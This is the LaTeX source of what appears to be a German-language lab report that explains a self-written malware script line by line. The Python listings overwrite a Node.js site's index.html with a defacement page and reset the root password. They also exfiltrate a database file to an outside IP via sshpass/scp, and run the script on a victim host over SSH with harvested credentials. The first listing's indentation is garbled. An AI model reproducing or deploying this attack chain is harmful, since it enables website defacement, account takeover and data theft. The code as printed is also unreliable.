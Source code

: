 \documentclass[12pt]{article}
\begin{document}
Die eigentliche Schadware arbeitet nun wie folgt. Das Defacement der Website wird umgesetzt indem eine neue Datei 'index.html' erzeugt und mit Html Code befüfflt wird. Hierfür muss zuerst der Pfad der legitimen Datei gefunden werden. In Zeile 4 wird mit subprocess das linux tool 'find' verwendet, um nach html dateien zu suchen.  
\begin{figure}[h]
 \caption{Erster Ansatz Schadware}
 \begin{lstlisting}[language=python, style=code,basicstyle=\scriptsize]
 import os
 import subprocess
 #suche mit linux-find, pfade mit der file endung html
 proc = subprocess.Popen("find / -name '*.html'", shell=True, stdout=subprocess.PIPE)
 output = proc.stdout.readlines()
 for i in output:
	 if "/public/index.html" in str(i):
		 foundpath = i
		 else:
			 continue
			 #defacement der website
			 malware = open(foundpath,"w+")
			 malware.write("<!DOCTYPE html><html><head><title>foobar</title><style>h1 {text-align: center;color: red</style></head><body><h1>You have been compromised</h1></body></html>")
				 
				 #change-cred
				 subprocess.run('echo -n "pwned\npwned" | passwd root', shell=True)
				 os.system("sshpass -p Pw scp -o StrictHostKeyChecking=no pfad sleven@192.46.236.95:/home/sleven")
 \end{lstlisting}

\end{figure}
\newpage
In den gefundenen Dateien wird nun nach der Haupt index Datei gesucht(vgl. Zeile 7). Es ist bekannt das Nodejs ein Verzeichnis namens 'public' besitzt, indem die Html dateien gehosted werden. Der Pfad wird in die Variable 'foundpath' geschrieben. Diese wird in Zeile 12 übergeben um die legitime index.html zu überschreiben. In die neue Html Datei wird nun in Zeile 13 das Defacement geschrieben.\\
Anschließend werden in Zeile 16 die Anmeldedaten geändert. Hierbei werden erneut mit subprocess Linux befehle ausgeführt. Mit echo werden die neuen Anmeldedaten in passwd gepiped.\\
In Zeile 17 wird nun die von außen nicht erreichbare Datei 'Immobilie.db' an ein weiteren Remote Server geschickt. Dies wird erneut mit os.system bewerkstelligt.

Nachdem die Malware auf den Opfer-Server gesendet wurde, wird sie nun von der Funktion 'ExecMalware' ausgeführt.
\begin{figure}[h]
 \caption{Funktion zum ausführen der Schadware}
 \begin{lstlisting}[language=python, style=code,basicstyle=\scriptsize]
 def ExecMalware():
 	getCredentials()
 	client = paramiko.SSHClient()
 	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
 	client.connect('172.17.0.2', username=user, password=pw)
 	time.sleep(1)
 	stdin, stdout, stderr = client.exec_command('python3 SW.py')
	for line in stdout:
	 	print(line)
	 	client.close()
 \end{lstlisting}

\end{figure}
Mit hilfe von Paramiko wird eine SSH Verbindung aufgebaut(vgl. Zeile 5). Anschließend wird in Zeile 7 über stdin des remote Servers die Malware gestartet.
\newpage
\end{document}
